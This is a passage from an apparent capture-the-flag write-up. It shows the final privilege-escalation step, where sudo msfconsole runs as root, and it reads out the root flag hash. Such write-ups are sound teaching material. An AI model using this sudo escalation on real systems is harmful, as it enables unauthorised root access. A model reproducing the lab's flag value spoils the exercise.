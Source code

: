Time to escalate as user `root` and get the flags!
```
pwn@scriptkiddie:~$ sudo msfconsole
...
msf6 > pwd
stty: 'standard input': Inappropriate ioctl for device
[*] exec: pwd

/home/pwn
...
msf6 > whoami
stty: 'standard input': Inappropriate ioctl for device
[*] exec: whoami

root
...
msf6 > pwd
stty: 'standard input': Inappropriate ioctl for device
[*] exec: pwd

/root
...
msf6 > ls
stty: 'standard input': Inappropriate ioctl for device
[*] exec: ls

root.txt
snap
...
msf6 > cat root.txt
stty: 'standard input': Inappropriate ioctl for device
[*] exec: cat root.txt

be03af4e25fa631012bf791a53a47195
```
Done! Finally!
